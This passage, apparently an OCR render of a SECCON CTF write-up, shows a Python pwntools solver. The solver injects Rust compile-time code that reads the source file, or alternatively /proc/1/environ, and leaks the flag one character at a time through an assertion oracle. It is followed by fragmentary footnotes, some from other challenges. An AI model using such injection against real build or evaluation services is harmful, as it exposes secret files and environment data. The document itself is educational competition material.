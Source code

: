 ```rust
        i += 1;
    }
    assert!(false); // not found
}
```

Finally, you can get the entire flag string using this function.

As another solution, you can also use `/proc/1/environ` instead of `file!()`.

### Solver

```python
import os
import pwn
import string

pwn.context.log_level = "error"


def communicate(program: str):
    assert len(program) <= 512
    io = pwn.remote(os.getenv("SECCON_HOST"), os.getenv("SECCON_PORT"))
    io.sendlineafter(b"):", program.encode())
    io.sendline(b"__EOF__")

    res = io.recvall().decode().strip()
    io.close()
    return res


TEMPLATE = """
}

static _CTFE: () = _contains(b"{{QUERY}}");

const fn _contains(query: &[u8]) {
    let content = include_bytes!(file!());

    let mut i = 350;
    while i < content.len() {
        let mut j = 0;
        while j < query.len() && i + j < content.len() && content[i + j] == query[j] {
            j += 1;
        }
        if j == query.len() {
            return; // found!
        }
        i += 1;
    }
    assert!(false); // not found
""".strip().replace("    ", "")


def oracle(query: str) -> bool:
    program = TEMPLATE.replace("{{QUERY}}", query)
    return ":)" in communicate(program)


CHARS = "}_" + string.ascii_lowercase + string.digits
known = "SECCON{"
while not known.endswith("}"):
    for c in CHARS:
        if oracle(known + c):
```

[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;
[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version. ref: https://www.typescriptlang.org/tsconfig/#target